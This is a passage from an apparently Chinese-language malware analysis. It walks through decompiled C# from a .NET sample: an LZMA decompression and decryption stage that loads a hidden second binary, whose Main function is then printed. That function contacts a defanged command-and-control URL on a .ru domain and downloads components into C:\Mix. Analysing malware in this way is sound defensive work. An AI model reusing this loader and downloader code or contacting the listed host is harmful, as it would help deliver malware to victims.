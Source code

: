 ```
        `}`
    `}`
    return result;
`}`

internal static byte[] Decompress(byte[] P_0)
`{`
    MemoryStream memoryStream = new MemoryStream(P_0);
    LzmaDecoder lzmaDecoder = new LzmaDecoder();
    byte[] array = new byte[5];
    memoryStream.Read(array, 0, 5);
    lzmaDecoder.SetDecoderProperties(array);
    long num = 0L;
    for (int i = 0; i &amp;lt; 8; i++)
    `{`
        int num2 = memoryStream.ReadByte();
        num |= (long)((ulong)(byte)num2 &amp;lt;&lt;span id="mce_SELREST_start" style="overflow:hidden;line-height:0;"&gt;&lt;/span&gt;&amp;lt; 8 * i);
    `}`
    byte[] array2 = new byte[(int)num];
    MemoryStream memoryStream2 = new MemoryStream(array2, true);
    long num3 = memoryStream.Length - 13;
    lzmaDecoder.Code(memoryStream, memoryStream2, num3, num);
    return array2;
`}`
```

在第19行，长数组对象被Decrypt函数解密。处理结果是一个GCHandle对象。GCHandle对象的内容是用来创建一个模块（第21行），然后它的一个方法被激活（第34行）。<br>
被解密的代码是另一个.NET二进制文件。所有我们可以再次用ILSpy反编译它来看看它的内容。

[![](https://p4.ssl.qhimg.com/t01e7236b4061966d18.png)](https://p4.ssl.qhimg.com/t01e7236b4061966d18.png)

可以看到它的主函数如下(http被替换成hxxp防止误操作)：

```
[STAThread]
private static void Main()
`{`
    try
    `{`
        string text = SendPOST("hxxp://pussyhunters.ru/mix/check.php", "getHash=True");
        string text2 = "C:\Mix\";
        string path = "C:\Program Files (x86)\Java\";
        WebClient webClient = new WebClient();
        string[] array = text.Split(':');
        if (!Directory.Exists(text2))
        `{`
            Directory.CreateDirectory(text2);
        `}`
        if (!Directory.Exists(path))
        `{`
            MessageBox.Show("Скачайте Java (32-разрядная версия).", "Ошибка запуска!", MessageBoxButtons.OK, MessageBoxIcon.Hand);
            Process.Start("hxxps://www.java.com/ru/download/manual.jsp");
            Application.Exit();
        `}`
        else
        `{`
            if (!CalculateMD5(text2 + "\Bypass.lib").Equals(array[0]))
            `{`
                if (File.Exists(text2 + "\Bypass.lib"))
                `{`
                    File.Delete(text2 + "\Bypass.lib");
                `}`
```